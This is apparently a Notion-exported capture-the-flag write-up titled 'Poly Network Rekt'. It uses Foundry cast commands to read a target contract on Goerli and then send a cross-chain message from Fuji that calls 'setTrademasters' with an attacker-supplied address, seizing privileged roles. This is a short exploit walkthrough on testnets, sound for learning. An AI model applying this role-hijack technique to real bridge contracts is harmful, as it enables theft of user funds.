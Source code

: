 ```yaml
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Poly Network Rekt"
            link: null
          annotations:
            bold: true
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Poly Network Rekt"
          href: null
  url: "https://www.notion.so/Poly-Network-Rekt-b7b8b11820c249bcb1f96a50fc20d478"
  public_url: null
UPDATE_TIME: "2024-02-15T19:36:26.685Z"
EXPIRY_TIME: "2024-02-15T20:36:23.011Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


![](https://prod-files-secure.s3.us-west-2.amazonaws.com/00345c33-b7f7-443a-aca8-598247fb6d93/01477dc9-56d4-448b-bb5b-a05aba278bf2/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20240215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20240215T193623Z&X-Amz-Expires=3600&X-Amz-Signature=12630dd19bc492aec64b41c1c06db95101f68e0b600ba35a0154a88e5f9c26fd&X-Amz-SignedHeaders=host&x-id=GetObject)


First here the the boat address on Goerli (the target contract we have to interact with):


```solidity
cast call $TRADING_BOAT_GOERLI --rpc-url $RPC_URL_GOERLI "tradingData()(address)"
 
> 0xFDDa11C6504db2Cf760F3cb53253D88cF8A5a593
```


Now we can try to interact with the bridge contract on Fuji chain:


```solidity
cast send $TRADING_BOAT_FUJI  --private-key $PRIVATE_KEY --rpc-url $RPC_URL_FUJI "sendShipment(string,bytes32[],uint64,address)(bytes32)" "setTrademasters" [0x000000000000000000000000122C0492CEa0241cDfD7A11469e3434D24889Cc6] 0x5 $TRADING_DATA_GOERLI
```


output:


```solidity
0x97bc653aac2c7b476cefe65e9df32d34caf31f670e4f36a441000963f8df3a37
```
